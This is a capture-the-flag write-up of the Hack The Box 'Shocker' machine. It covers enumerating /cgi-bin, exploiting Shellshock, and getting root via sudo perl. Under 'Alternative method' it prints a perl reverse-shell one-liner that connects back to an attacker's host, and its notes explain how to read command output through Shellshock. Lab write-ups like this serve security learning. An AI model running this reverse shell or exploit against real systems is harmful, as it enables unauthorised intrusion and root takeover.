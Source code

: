 ```yaml
---
layout: post
title: "HTB Shocker write-up"
---
```


# **Recon**

`nmap` routine shows 2 TCP ports open on the target

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1695094035274/c913388e-a8d8-40b3-af52-2428eaa47c3b.png)

Directory enumeration on the Apache server is performed via `gobuster`

> Different wordlists may impact enumeration results

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1695094170011/98440997-56ad-4a85-affb-ab967b6c23ed.png)

> `/cgi-bin` directory was discovered however the directory itself is not accessible (error code 403)

While we get a `403` trying to access `/cgi-bin` we could do a further dirbust to see if subsequent directories can be accessed

> always enumerate harder

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1695094267335/d9239033-d3a2-4956-a592-2088a5ce4f9a.png)

> gobuster `-x` allows appending of file types, in this case according to the hints `/cgi-bin` is where apache stores scripts (`.pl, .sh` etc.) ref: [cgi enum wordlist](https://github.com/orwagodfather/WordList/blob/main/cgi-bin.txt) for more possible scripts that can be found

# Exploit

We notice that the Apache server is running an older version during recon phase, also given we find `.sh` shell scripts, we piece together two main keywords "apache" "shell script" to find the [CVE](https://www.exploit-db.com/exploits/34900) "Shellshock"

To test whether certain exploits are applicable we can first attempt to test our hypothesis using `nmap` scripts

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1695094289067/9b6d360f-308e-4739-aeeb-98631bf6854f.png)

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1695094294056/cf79f0d1-554f-4da4-ac39-03e5cdd1f9ca.png)

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1695094298992/86a826fc-8045-42d9-bdc4-1a32413e7009.png)

Knowing the server is indeed vulnerable, we can try to run to exploit to gain foothold

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1695094315245/6b8f3624-178d-43b9-b516-fc9f41fe0576.png)

> some issues were present due to the exploit being written in python2

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1695094380361/6aea2aab-9941-4035-b33f-e9a5cabbf052.png)

After successfully configuring the payload, we can access the user flag

# Priv Esc

This is a easy box so the process is very straight forward

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1695094436484/b9e595fa-710c-49af-8dc1-45d94c88dcbc.png)

A quick GTFObins tour and we can successfully escalate to root

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1695094449118/924b1f2e-e697-4afa-853b-4455d70e233a.png)

## Alternative method

```bash
sudo perl -e 'use Socket;$i="$LHOST";$p=$LPORT;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

> this method spawns a reverse shell on your attacking machine instead

# Notes

> credits: ippsec [walkthrough](https://www.youtube.com/watch?v=IBlTdguhgfY)

* ## SSH, Apache version enumeration
    
    * crossref package version [site](https://packages.ubuntu.com) against different distro to enumerate which distro is being run
        
    * version last updated date = likely when the system was last updated 
        
* ## HTTP response `Content-Type`
    
    When accessing discovered scripts change the type to `text/plain` so the browser can display the content of the script. In the case where the browser cannot understand the extension, the content will not be displayed when visiting the site #http\_content-type
    
* ## HTTP/web-related `nmap` NSE script debugging
    
    in the case of `nmap` scripts failing, use burp proxy listener:
    
    * bind `localhost:8081` to `$target:$target_port` and `nmap` the `localhost`
        
    * start intercepting and debug the HTTP requests `nmap` sends
        
    * modify nse script accordingly #nmap
        
    
* ## RFC shenanigans
    
    * `nmap` shellshock scripts fail to list `cmd` response due to [RFC standards](https://www.rfc-editor.org/rfc/rfc9110.html): RFC HTTP response standards consist of `\r\n` delimiter between header and body
        
        ![](https://cdn.hashnode.com/res/hashnode/image/upload/v1695094558051/75af4457-eead-42bd-b0d7-ceed686d610e.png)
        
        ![](https://cdn.hashnode.com/res/hashnode/image/upload/v1695094567545/d4c2a9c0-35bf-4f2c-b12b-e45f865485a5.png)
        > `echo;` inserts a new line in the response, separating the header from the body (`ls` result) `/bin/ls` is used as `ls` returns negative results (alias/PATH not set)
